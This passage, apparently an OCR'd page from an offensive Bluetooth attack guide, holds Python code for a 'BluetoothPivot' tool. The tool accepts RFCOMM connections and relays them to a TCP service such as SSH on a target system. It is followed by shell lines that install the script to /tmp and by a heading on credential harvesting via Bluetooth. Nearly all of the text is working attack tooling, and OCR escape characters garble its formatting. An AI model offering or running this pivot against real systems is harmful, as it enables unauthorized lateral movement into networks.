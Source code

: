 class BluetoothPivot:\
def \_\_init\_\_(self, target_mac, target_port=22):\
self.target_mac = target_mac\
self.target_port = target_port\
self.bt_socket = None\
self.tcp_socket = None

    def start\_pivot(self):  
        \# Create Bluetooth RFCOMM socket  
        self.bt\_socket \= bluetooth.BluetoothSocket(bluetooth.RFCOMM)  
        self.bt\_socket.bind(("", bluetooth.PORT\_ANY))  
        self.bt\_socket.listen(1)  
            
        print(f"Bluetooth pivot listening for connections...")  
            
        while True:  
            client\_socket, address \= self.bt\_socket.accept()  
            print(f"Pivot connection from {address}")  
                
            \# Handle pivot in separate thread  
            pivot\_thread \= threading.Thread(  
                target=self.handle\_pivot,  
                args=(client\_socket,)  
            )  
            pivot\_thread.start()  
        
    def handle\_pivot(self, bt\_client):  
        \# Connect to target service via TCP  
        tcp\_socket \= socket.socket(socket.AF\_INET, socket.SOCK\_STREAM)  
        tcp\_socket.connect(('target\_system', self.target\_port))  
            
        \# Relay data between Bluetooth and TCP  
        while True:  
            ready \= select.select(\[bt\_client, tcp\_socket\], \[\], \[\])  
                
            for sock in ready\[0\]:  
                data \= sock.recv(4096)  
                if not data:  
                    return  
                    
                if sock \== bt\_client:  
                    tcp\_socket.send(data)  
                else:  
                    bt\_client.send(data)

if \_\_name\_\_ == "\_\_main\_\_":\
pivot = BluetoothPivot("target_mac_address")\
pivot.start_pivot()\
EOF

    chmod \+x /tmp/bt\_pivot.py  
    echo "Bluetooth pivot configured"  

}

#### **Credential Harvesting via Bluetooth**
